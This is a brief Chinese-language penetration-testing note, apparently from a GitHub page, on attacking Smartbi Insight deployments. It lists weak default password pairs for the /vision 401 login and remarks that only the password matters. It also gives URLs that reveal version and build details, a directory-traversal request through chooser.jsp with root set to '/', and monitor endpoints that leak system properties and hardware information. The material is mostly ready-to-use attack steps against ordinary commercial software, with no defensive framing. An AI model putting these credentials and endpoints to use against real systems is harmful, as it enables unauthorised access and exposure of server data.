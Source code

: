 抓取 true/false 字段

## 401认证弱口令及敏感目录

### 401 弱口令

/vision 目录下的文件都需要 401 认证

```
admin/admin
admin/manager
admin/2manager
mining/admin
demo/demo
manager/demo
manager/admin
user/admin
test/admin
huanan/admin
```

实测发现不论用户名输什么，只要密码正确即可

### 查看版本

[https://127.0.0.1/vision/version.txt](https://127.0.0.1/vision/version.txt)

```
2021-01-11 15:11:24
```

[https://127.0.0.1/vision/packageinfo.txt](https://127.0.0.1/vision/packageinfo.txt)

```
Build Time:20200918153547 
War Type:dist 
TAG:Branch_SmartbiV85_6_20190221 
Version:8.5.658863.20385 
VersionType:Smartbi Insight Edition c0d53d51438945fa5b9839b3e0111e660792d2e1 
Spreadsheet fake
```

### 目录遍历

[https://127.0.0.1/vision/chooser.jsp?key=CONFIG_FILE_DIR&root=%2F](https://127.0.0.1/vision/chooser.jsp?key=CONFIG_FILE_DIR&root=/)

### 信息泄露

[https://127.0.0.1/vision/monitor/sysprops.jsp](https://127.0.0.1/vision/monitor/sysprops.jsp)

[https://127.0.0.1/vision/monitor/getclassurl.jsp?classname=smartbi.freequery.expression.ast.TextNode](https://127.0.0.1/vision/monitor/getclassurl.jsp?classname=smartbi.freequery.expression.ast.TextNode)

[https://127.0.0.1/vision/monitor/hardwareinfo.jsp](https://127.0.0.1/vision/monitor/hardwareinfo.jsp)
